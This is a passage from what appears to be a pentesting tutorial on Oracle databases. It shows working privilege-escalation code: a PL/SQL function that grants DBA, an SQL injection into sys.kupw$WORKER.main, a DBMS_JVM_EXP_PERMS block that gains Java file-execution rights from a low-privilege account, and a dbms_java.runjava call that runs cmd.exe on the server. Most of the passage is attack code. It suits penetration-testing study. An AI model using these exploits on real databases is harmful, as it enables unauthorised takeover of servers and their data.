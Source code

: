 EXECUTE IMMEDIATE 'GRANT DBA TO TEST';
COMMIT;RETURN(1);END;
/

Now we can inject a procedure as an argument of vulnerable function (example for versions 10x):
1
	exec sys.kupw$WORKER.main('x','YY'' and 1=test1.f1 –-');

In the not too recent versions 10 and 11, there is one nice exception, or rather a vulnerability, that allows you to execute commands on the server without having DBA rights: DBMS_JVM_EXP_PERMS procedure allows a user with CREATE SESSION privilege to get JAVA IO rights. The attack can be mounted as follows:
1
2
3
4
5
6
7
8
9
10
11
12
13
	SQL&gt; DECLARE
   POL DBMS_JVM_EXP_PERMS.TEMP_JAVA_POLICY;
   CURSOR C1 IS SELECT
'GRANT','GREMLIN','SYS','java.io.FilePermission','&lt;FILES&gt;&gt;','execute','ENABLED' FROM DUAL;
  BEGIN
  OPEN C1;
  FETCH C1 BULK COLLECT INTO POL;
  CLOSE C1;
  DBMS_JVM_EXP_PERMS.IMPORT_JVM_PERMS(POL);
  END;
  /
 
PL/SQL procedure successfully completed.

Now that you have the privileges to call up Java procedures, you can evoke a response from the Windows interpreter and execute something:
1
	SQL&gt; select dbms_java.runjava(‘oracle/aurora/util/Wrapper c:\\windows\\system32\\cmd.exe /c echo 123 &gt;c:\\hack’)from dual;

 pentesting protocols, oracle

